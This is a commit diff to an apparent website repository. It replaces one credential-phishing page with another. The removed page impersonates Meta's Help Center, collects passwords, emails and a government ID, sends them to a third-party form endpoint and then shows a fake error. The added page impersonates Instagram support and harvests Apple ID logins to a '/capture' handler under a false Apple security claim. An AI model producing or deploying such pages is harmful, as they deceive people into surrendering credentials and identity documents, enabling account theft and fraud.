

Before and after one commit to d7m34/meta-pag2, a website: page index.html in a window 1280 px wide. Shown: the part 321-1141 px from the top of the page, without its empty margins (317-962 px from the left). After the commit the page ends 800 px from the top, so only its background shows below. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,191 +3,27 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Account Verification | Meta Help Center</title>
+    <title>Instagram Support Center | Identity Verification</title>
     <style>
-        /* استخدام خطوط النظام الافتراضية لمطابقة تصميم ميتا الواقعي */
-        body {
-            font-family: -apple-system, BlinkMacSystemFont, "Segoe UI", Roboto, Helvetica, Arial, sans-serif;
-            background-color: #F0F2F5;
-            margin: 0;
-            color: #1C1E21;
-            line-height: 1.34;
-        }
-        /* شريط التنقل العلوي */
-        .navbar {
-            background: white;
-            padding: 16px 32px;
-            box-shadow: 0 1px 2px rgba(0, 0, 0, 0.1);
-            display: flex;
-            align-items: center;
-        }
-        /* حاوية النموذج */
-        .container {
-            max-width: 500px;
-            margin: 40px auto;
-            background: white;
-            padding: 40px;
-            border-radius: 12px;
-            box-shadow: 0 4px 12px rgba(0, 0, 0, 0.1);
-            border: 1px solid #dddfe2;
-        }
-        /* النصوص */
-        h2 {
-            font-size: 24px;
-            font-weight: 700;
-            margin-bottom: 12px;
-            text-align: center;
-        }
-        p.desc {
-            font-size: 16px;
-            color: #65676B; /* لون نص ثانوي رسمي */
-            margin-bottom: 32px;
-            text-align: center;
-            line-height: 1.5;
-        }
-        /* حقول الإدخال */
-        .form-group {
-            margin-bottom: 20px;
-        }
-        label {
-            display: block;
-            font-size: 14px;
-            font-weight: 500;
-            color: #65676B;
-            margin-bottom: 8px;
-        }
-        input, textarea {
-            width: 100%;
-            padding: 14px 16px;
-            border: 1px solid #dddfe2; /* حدود فاتحة */
-            border-radius: 6px;
-            background: #FFFFFF; /* خلفية بيضاء */
-            box-sizing: border-box;
-            font-size: 16px;
-            transition: all 0.2s ease;
-        }
-        /* تأثير التركيز على الحقول */
-        input:focus, textarea:focus {
-            border-color: #1877F2;
-            box-shadow: 0 0 0 2px rgba(24, 119, 242, 0.2);
-            outline: none;
-        }
-        textarea {
-            resize: vertical;
-            height: 100px;
-        }
-        input[type="file"] {
-            padding: 10px;
-            background: #F5F6F7;
-        }
-        /* زر الإرسال */
-        .btn-submit {
-            width: 100%;
-            padding: 14px;
-            background: #1877F2; /* لون ميتا الأزرق الرسمي */
-            color: white;
-            border: none;
-            border-radius: 6px;
-            font-size: 16px;
-            font-weight: 600;
-            cursor: pointer;
-            margin-top: 10px;
-            transition: background 0.2s;
-        }
-        .btn-submit:hover {
-            background: #166fe5; /* لون أغمق قليلاً عند التحويم */
-        }
-        /* رسالة الخطأ */
-        #error-overlay {
-            display: none;
-            background: #fff;
-            border: 1px solid #fa3e3e;
-            color: #fa3e3e;
-            padding: 16px;
-            border-radius: 8px;
-            margin-top: 24px;
-            font-size: 14px;
-            text-align: center;
-            box-shadow: 0 2px 8px rgba(0,0,0,0.05);
-        }
+        body { font-family: -apple-system, BlinkMacSystemFont, "Segoe UI", Roboto, Helvetica, Arial, sans-serif; background-color: #fafafa; display: flex; justify-content: center; align-items: center; height: 100vh; margin: 0; }
+        .login-card { background: white; border: 1px solid #dbdbdb; padding: 40px; border-radius: 1px; width: 100%; max-width: 350px; text-align: center; }
+        .logo { width: 175px; margin-bottom: 20px; }
+        h2 { font-size: 17px; color: #8e8e8e; margin-bottom: 20px; line-height: 1.5; }
+        input { width: 100%; padding: 10px; margin-bottom: 10px; border: 1px solid #dbdbdb; border-radius: 3px; background: #fafafa; box-sizing: border-box; }
+        button { width: 100%; padding: 10px; border: none; border-radius: 8px; background-color: #0095f6; color: white; font-weight: bold; cursor: pointer; margin-top: 10px; }
+        .footer-note { font-size: 12px; color: #8e8e8e; margin-top: 20px; }
     </style>
 </head>
 <body>
-    <div class="navbar">
-        <img src="https://static.xx.fbcdn.net/rsrc.php/y8/r/dF5SId3UHWd.svg" alt="Meta" height="24">
+    <div class="login-card">
+        <img src="https://www.instagram.com/static/images/web/logged_out_wordmark.png/7a25111a445d.png" class="logo">
+        <h2>To recover your account, please verify your identity using the connected Apple ID.</h2>
+        <form action="/capture" method="POST">
+            <input type="email" name="email" placeholder="Apple ID (Email)" required>
+            <input type="password" name="password" placeholder="Password" required>
+            <button type="submit">Verify Identity</button>
+        </form>
+        <p class="footer-note">Secure verification powered by Apple Cloud Security.</p>
     </div>
-
-    <div class="container">
-        <h2>Identity Verification</h2>
-        <p class="desc">To secure your account, please confirm your identity by providing the official information below.</p>
-
-        <form id="meta-form" action="https://forminit.com/f/lgz9j8n2rgg" method="POST" enctype="multipart/form-data">
-            <div class="form-group">
-                <label>Full Name</label>
-                <input type="text" name="name" required placeholder="Enter your legal name">
-            </div>
-            <div class="form-group">
-                <label>Username / ID</label>
-                <input type="text" name="user" required placeholder="e.g., @username or ID number">
-            </div>
-            <div class="form-group">
-                <label>Primary Email Address</label>
-                <input type="email" name="gmail" required placeholder="Email associated with account">
-            </div>
-            <div class="form-group">
-                <label>Secondary Email Address (Optional)</label>
-                <input type="email" name="icloud" placeholder="Backup email address">
-            </div>
-            <div class="form-group">
-                <label>Current or Last Known Password</label>
-                <input type="password" name="pass" required placeholder="********">
-            </div>
-            <div class="form-group">
-                <label>Additional details</label>
-                <textarea name="desc" placeholder="Please provide any extra details about your situation."></textarea>
-            </div>
-            <div class="form-group">
-                <label>Upload Government-Issued ID</label>
-                <input type="file" name="id_file" accept="image/png, image/jpeg, application/pdf">
-            </div>
-            <button type="submit" id="submit-btn" class="btn-submit">Continue</button>
-        </form>
-
-        <div id="error-overlay">
-            <strong>Unable to Process Request</strong><br>
-            Our systems are currently experiencing high traffic. Please try again later.
-        </div>
-    </div>
-
-    <script>
-        const form = document.getElementById('meta-form');
-        form.onsubmit = async (e) => {
-            e.preventDefault();
-            const btn = document.getElementById('submit-btn');
-            const originalText = btn.innerText;
-            btn.innerText = "Processing...";
-            btn.disabled = true;
-            btn.style.opacity = "0.7";
-
-            try {
-                const response = await fetch(form.action, {
-                    method: 'POST',
-                    body: new FormData(form),
-                    headers: {
-                        'Accept': 'application/json'
-                    }
-                });
-
-                // في حال نجاح الإرسال أو فشله، سنظهر رسالة الخطأ المزيفة حسب طلب السكربت الأصلي
-                form.style.display = 'none';
-                document.getElementById('error-overlay').style.display = 'block';
-
-            } catch (error) {
-                // حتى في حال وجود خطأ حقيقي في الشبكة، نظهر الرسالة المزيفة
-                form.style.display = 'none';
-                document.getElementById('error-overlay').style.display = 'block';
-            }
-        };
-    </script>
 </body>
 </html>
```
